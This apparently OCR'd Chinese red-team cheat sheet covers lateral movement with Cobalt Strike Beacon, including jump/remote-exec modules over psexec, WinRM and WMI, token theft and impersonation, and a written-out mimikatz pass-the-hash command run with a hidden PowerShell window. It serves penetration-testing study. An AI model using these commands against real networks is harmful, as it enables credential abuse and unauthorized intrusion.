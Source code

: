 ## 横向移动

:warning: OPSEC建议：使用**spawnto**命令更改Beacon将为其后渗透作业启动的进程。默认是rundll32.exe

- **portscan：**对特定目标执行端口扫描。
- **runas：**使用凭据包装runas.exe，可以作为另一个用户运行命令。
- **pth：**通过提供用户名和NTLM哈希，可以执行传递哈希攻击并在当前进程中注入TGT。\
  :exclamation: 此模块需要管理员权限。
- **steal_token：**从指定进程中窃取令牌。
- **make_token：**通过提供凭据，可以在当前进程中创建一个模拟令牌，并从被模拟用户的上下文中执行命令。
- **jump：**提供一种简单快捷的方式，使用winrm或psexec在目标上生成新的信标会话来进行横向移动。\
  :exclamation: **jump**模块将使用当前的委派/模拟令牌在远程目标上进行身份验证。\
  :muscle: 我们可以将**jump**模块与**make_token**或**pth**模块结合使用，以便在网络上快速“跳转”到另一个目标。
- **remote-exec：**使用psexec、winrm或wmi在远程目标上执行命令。\
  :exclamation: **remote-exec**模块将使用当前的委派/模拟令牌在远程目标上进行身份验证。
- **ssh/ssh-key：**使用密码或私钥进行SSH身份验证。适用于Linux和Windows主机。

:warning: 所有命令都启动powershell.exe

```powershell
Beacon Remote Exploits
======================
jump [module] [target] [listener] 

psexec	x86	使用服务运行服务EXE工件
psexec64	x64	使用服务运行服务EXE工件
psexec_psh	x86	使用服务运行PowerShell单行命令
winrm	x86	通过WinRM运行PowerShell脚本
winrm64	x64	通过WinRM运行PowerShell脚本

Beacon Remote Execute Methods
=============================
remote-exec [module] [target] [command] 

方法                             描述
-------                         -----------
psexec                          通过服务控制管理器远程执行
winrm                           通过WinRM（PowerShell）远程执行
wmi                             通过WMI（PowerShell）远程执行

```



---

**操作安全的Pass-the-Hash**：

1. `mimikatz sekurlsa::pth /user:xxx /domain:xxx /ntlm:xxxx /run:"powershell -w hidden"`
2. `steal_token PID`

---

### 控制工件
